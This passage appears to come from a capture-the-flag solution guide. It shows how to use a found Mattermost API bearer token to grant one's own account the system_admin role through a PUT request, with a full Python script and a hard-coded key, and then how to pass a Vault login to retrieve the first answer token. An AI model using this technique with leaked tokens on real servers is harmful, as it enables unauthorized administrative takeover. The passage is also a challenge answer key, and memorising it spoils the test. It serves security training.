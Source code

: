 It may be helpful to reference the Mattermost API documentation found [here](https://api.mattermost.com/#tag/users/operation/GetUsers).

For the second request:

- Run `PUT` request against the URL `https://chat.merch.codes/api/v4/users/{*ID of your account*}/roles`
- Set the `header` with the same information as the `GET` request:
    - `Authorization:Bearer {key found}`
    - `Content-Type:application/json`
- Create and pass a `dictionary` object that contains the `roles` you want to apply to your account.
    - new_roles = {"roles":"system_admin system_user"}

Below is another exemplar Python script like the previous script using all the information required to complete this request.

```python
import requests, json
Auth_key_found = "eih7t4qbypg5uqkuijnnudhhpa"
user_acc_id = **ID of your account found in previous step**
new_roles = {
    "roles":"system_admin system_user"
}
url = f"https://chat.merch.codes/api/v4/users/{user_acc_id}/roles"
try:
  out = requests.put(url,json=new_roles,headers={"Authorization":f"Bearer {Auth_key_found}","Content-Type":"application/json"})
except Exception as e:      # To help with troubleshooting if you should run into issues.
  print(str(e))
else:
  print(json.dumps(json.loads(out.text),indent=2))
```

If done correctly, you get a message stating: `"status":"OK"` telling you the request was completed successfully.

Return to the Vault login page (`vault.merch.codes/level1`) and login. Now, you pass authentication.

The first token, and the answer to Question 1, is present on the next page.

![](img/1st_token.png)
